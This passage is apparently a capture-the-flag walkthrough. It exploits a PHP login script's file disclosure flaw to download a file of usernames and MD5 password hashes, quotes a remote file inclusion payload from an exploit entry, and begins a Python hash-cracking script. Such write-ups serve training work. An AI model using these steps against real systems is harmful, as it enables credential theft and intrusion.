 
## Exploitation
### File Disclosure

I Download the exploit to the attacking machine and we review its content.

```console
root@kali:~$ wget https://www.exploit-db.com/download/7444
root@kali:~$ less 7444.txt
...
[0x02] Bug:[Remote File Inclusion]

[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]
...
[0x03] Bug:[Sensitive Data Disclosure]
...
In this login system, sensible datas like username and password are stored in a local
text file , so we can get sensitive information just going to this txt file . The name of
this file is set in slogin_lib.inc.php. By default is: slog_users.txt

[!] EXPLOIT: /[path]/slog_users.txt
...
```

I tried exploiting by Remote File Inclusion but for some reason it doesn't work and I opt for Sensitive Data Disclosure wich allows me to read usernames and passwords in the **slog_users.txt** file.

![](/assets/images/development/screenshot-9.png)

I downloaded the **slog_users.txt** file and filtered the password hashes to a file called hashes.txt.

```console
root@kali:~$ wget http://192.168.179.130:8080/developmentsecretpage/slog_users.txt
root@kali:~$ cat slog_users.txt 
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81
patrick, 87e6d56ce79af90dbe07d387d3d0579e
qiu, ee64497098d0926d198f54f6d5431f98
root@kali:~$ awk '{print $2}' slog_users.txt > hashes.txt
```

I developed a python script to crack these md5 hashes.

```python
#!/usr/bin/env python3

import requests,re

def decrypt(hash):
    try:
        r=requests.get(f"https://md5.gromweb.com/?md5={hash}")
        md5_decrypt=re.findall("\sstring\">(.*?)</.*", r.text)
        return md5_decrypt[0]
    except:
        pass

hashes=open("hashes.txt").read().splitlines()
```